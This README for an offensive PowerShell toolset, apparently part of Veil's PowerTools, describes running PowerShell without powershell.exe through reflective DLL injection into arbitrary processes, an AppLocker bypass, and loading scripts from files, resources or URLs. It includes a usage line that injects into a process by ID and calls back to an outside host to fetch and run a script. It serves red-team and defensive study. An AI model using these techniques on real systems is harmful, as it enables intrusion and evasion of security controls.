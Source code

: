 This project focuses on allowing the execution of Powershell functionality without the use of Powershell.exe. Primarily this project uses.NET assemblies/libraries to start execution of the Powershell scripts. 

Many thanks to those in the offensive powershell community. This work is not ground breaking but hopefully will motivate offense and defense to understand the implications and lack of protections available.

Of special note, many thanks to the following for their help/work in this project indirectly by being so awesome and coming up with awesome work:
Matt Graeber (@mattifestation)
Joe Bialek (@JosephBialek)
Lee Christensen (@tifkin_)
Will Schroeder (@harmj0y)
Stark

## PSInject.ps1
This project provides a powershell scipt (psinject.ps1) which implements the Invoke-PSInject function. This script is based off Powersploit's Invoke-ReflectivePEInjection and reflectively injects the ReflectivePick DLL. It allows for the replacement of the callback URL that is hard coded into the DLL. See this script for more details. 

The script that it calls back for must be base64 encoded. To do this, you can simply use the built in linux utility 'base64'. 

#### Example:
	import-module psinject.ps1
	Invoke-PSInject -Verbose -ProcID 0000 -CBURL http://1.1.1.1/favicon.ico

## ReflectivePick
This project is a reflective DLL based on Stephen Fewer's method. It imports/runs a .NET assembly into its memory space that supports the running of Powershell code using System.Management.Automation. Due to its' reflective property, it can be injected into any process using a reflective injector and allows the execution of Powershell code by any process, not just Powershell.exe. It extends inject/migrate capabilities into powershell. 

This DLL is meant to be used with PSInject.ps1 which provide the ability to modify the hardcoded callback URL or with Metasploit after compiling or patching the URL manually.

## SharpPick
This project is a .NET executable which allows execution of Powershell code through a number of methods. The script can be embedded as a resource, read from a url, appeneded to the binary, or read from a file. It was originally used as a proof of concept to demonstrate/test the blocking of powershell and bypass of applocker.

#### Man Page
	sharppick.exe [<flag> <argument>]
	flags:
	-f <file> : Read script from specified file
	-r <resource name> : Read script from specified resource
	-d <url> : Read script from URL
	-a <delimeter> : Read script appended to current binary after specified delimeter. Delimeter should be very very unique string

More SharpPick details [here](http://sixdub.net/2014/12/inexorable-powershell-a-red-teamers-tale-of-overcoming-simple-applocker-policies/)

Developed by [@sixdub](https://twitter.com/sixdub)

Part of Veil's [PowerTools](https://github.com/Veil-Framework/PowerTools)
